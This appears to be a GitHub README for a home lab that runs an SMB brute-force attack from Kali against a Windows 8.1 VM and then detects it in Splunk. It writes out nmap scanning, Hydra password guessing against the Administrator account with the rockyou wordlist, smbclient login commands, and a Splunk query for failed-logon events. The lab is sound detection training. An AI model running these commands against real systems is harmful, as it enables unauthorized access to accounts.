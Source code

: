 # Brute Force Detection (Windows 8 + Splunk)

This lab simulates a brute-force attack on a Windows 8.1 VM using the SMB protocol and detects it using Splunk. It follows MITRE ATT&CK techniques:
- T1110: Brute Force
- T1078: Valid Accounts

---

## 🛠️ Lab Setup

### Machines
- **Attacker**: Kali Linux (Hydra, smbclient)
- **Victim**: Windows 8.1 (Build 9600) with:
  - Sysmon
  - Splunk Universal Forwarder
- **SIEM**: Splunk Enterprise (host machine)

### Tools Used
- `hydra`: for brute-force attack
- `smbclient`: for SMB access attempts
- `Sysmon`: for process and network monitoring
- `Splunk`: for log ingestion and analysis

---

## 🧪 Attack Steps

### 1. Scan the target for open ports (RDP/SMB) (Kali)
```bash
nmap -sV -O -p- 192.168.29.236
```
![Description for image 1](../Screenshots/BF-img1.png) 

### 2. SMB Brute Force via Hydra (Kali)
```bash
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://192.168.29.236
```
or 
```bash
hydra -l Futwear -P /usr/share/wordlists/rockyou.txt smb://192.168.29.236 
```
![Description for image 1](../Screenshots/BF-img2.png) 

### 3. Login to smb with valid credentials (Kali)
**checks available shares**
```bash
smbclient -L //192.168.29.236 -U Futwear
```

![Description for image 1](../Screenshots/BF-img3.png) 

**To access and login to the smb shares**
```bash
smbclient -U Futwear //192.168.29.236/IPC$ -m SMB2
```
![Description for image 1](../Screenshots/BF-img4.png) 

### 4. Investigate in Splunk

**Event code - 4625 : Failed logon**
**Event code - 4624 : Successfull logon**

Set the time frame to **last 15 mins :**
   ```spl
   index=main EventCode=4625 | stats count by Account_Name, Logon_Type, Failure_Reason
   ```

![Description for image 1](../Screenshots/BF-img5.png)

Interpret logon types:

Logon Type	         Meaning	               Brute-force Likely?
  2	            Interactive (local login)	       ❌ No (local)
  3	           Network (SMB, remote share)	         ✅ Yes
  10	         RemoteInteractive (RDP)	         ✅ Yes
  7	                   Unlock	                    ❌ No

If you see many Logon Type 3 or 10 failures, that's brute-force!